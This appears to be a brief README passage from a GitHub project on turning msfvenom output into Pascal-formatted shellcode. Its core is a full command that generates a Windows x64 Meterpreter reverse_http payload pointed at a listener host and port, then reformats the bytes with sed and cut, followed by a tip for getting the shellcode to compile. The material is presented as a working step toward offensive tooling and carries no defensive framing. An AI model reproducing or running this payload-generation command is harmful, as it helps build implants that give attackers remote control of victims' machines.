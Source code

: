 to generate formatted pascal shellcode using Msfvenom you can achieve that by the exeucting the following command for an example 

```
msfvenom -p windows/x64/meterpreter/reverse_http LHOST=192.168.0.107 LPORT=443 -f c | sed -r 's/[\x]+/$/g' | sed -r 's/[\]+/,/g' | sed -r 's/["]+//g' | sed -e 's/$/\,/' | cut -c 2-
```

if you could face error while compiling the shellcode you can just `$00` at end of generated shellcode, sometime you need `$00,$00`



